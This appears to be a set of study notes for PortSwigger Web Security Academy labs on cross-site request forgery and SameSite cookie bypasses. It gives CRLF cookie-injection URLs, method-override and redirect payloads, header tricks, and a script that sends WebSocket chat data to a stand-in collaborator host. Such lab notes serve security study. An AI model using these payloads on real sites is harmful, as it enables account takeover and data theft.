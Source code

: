 Arises in update email functionality  
Potentially the main goal of CSRF is to change admin's mail and then reset his password.  
Generate CSRF PoC of update-email page with Burp and try to bypass restrictions:
* Сhange request method.
* Just delete CSRF token.
* Before using CSRF token in request, check it in HTML code and perform a CSRF attack with it.
More complex cases:
1. CSRF where token is tied to non-session cookie  
Observe LastSearchTerm in Set-Cookie header. Change it to `/?search=w;%0aSet-Cookie:+csrfKey=YOUR_KEY` and create the next payload to set this key to victim:
```
<script>
location="https://xxx.web-security-academy.net/?search=w;%0aSet-Cookie:+csrfKey=YOUR_KEY"
</script>
```
Now simply generate CSRF PoC and send it.
2. CSRF where token is duplicated in cookie  
Same as previous:
```
/?search=w%0d%0aSet-Cookie:%20csrf=kek%3b%20SameSite=None
```
3. SameSite Lax bypass via method override  
Change request method to GET and add `_method=POST` parameter:
```
/my-account/change-email?email=ww%40gmail.com&_method=POST
```
4. SameSite Strict bypass via client-side redirect  
```
/post/comment/confirmation?postId=7../../../my-account/change-email?email=ww%40gmail.com%26submit=1
```
5.  SameSite Strict bypass via sibling domain  
Observe there is `cms-xxx.web-security-academy.net` domain. Craft the next payload and full URL-encode it.
```
<script>
    var ws = new WebSocket('wss://your-websocket-url/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```
Create next payload and send it to victim:
```
<script>
location="https://cms-xxx.web-security-academy.net/login?username=URL-ENCODED-PAYLOAD&password=peter"
</script>
```
6. SameSite Lax bypass via cookie refresh  
Create CSRF PoC. Send it to victim once, wait 5-10 seconds and send it again.
7. CSRF Refresh Password isloggedin true  
Observer username and stayloggedin values in cookie  
Create POST request to change password or email and add `X-Forwarded-Host`, `X-Host`, `X_Forwarded-Server` pointing to exploit server  
Add a parameter `username=administrator` to request's body and send it  
## Clickjacking
